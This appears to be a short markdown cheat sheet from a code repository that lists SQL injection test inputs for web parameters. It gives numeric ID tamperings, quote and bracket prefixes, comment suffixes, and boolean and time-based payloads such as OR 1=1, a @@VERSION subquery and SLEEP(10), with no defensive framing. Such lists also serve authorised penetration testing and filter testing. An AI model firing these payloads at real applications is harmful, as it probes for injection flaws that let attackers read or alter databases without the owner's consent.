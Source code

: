 # SQL Query List

## Change numeric value of parameter ID

Before adding to the prefix next to the parameter value. Try to change the numeric value from the list below:

```
id=0
id=-1
id=9999.99
```

## Prefix SQL Query List

```
<whitespace>
'
"
\
')
")
```

## Suffix SQL Query List

```
--
#
/*
--<whitespace>
-- -
-- //
AND ('abc'='abc
```

## Error-based Query List

```
OR 1=1
OR 1=1 IN (SELECT @@VERSION)
OR '1'='1'
OR 1=2
OR 0=0
OR a=a
OR SLEEP(10)
AND 1=1
AND 1=1 IN (SELECT @@VERSION)
AND '1'='1'
AND 1=2
AND 0=0
AND a=a
AND SLEEP(10)
```